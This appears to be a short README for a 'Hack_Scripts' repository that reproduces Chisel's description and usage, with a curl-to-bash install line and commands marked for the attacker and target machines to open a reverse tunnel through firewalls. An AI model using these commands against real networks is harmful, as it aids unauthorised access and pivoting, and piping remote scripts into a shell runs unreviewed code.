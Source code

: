 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
    server - runs chisel in server mode/n
    client - runs chisel in client mode
    
  Read more:
    https://github.com/jpillora/chisel
    
 chisel server -p 9000 --reverse -v   >> Run in Attacker Machine\n
 chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>   >> Run in Target Machine
 

# 
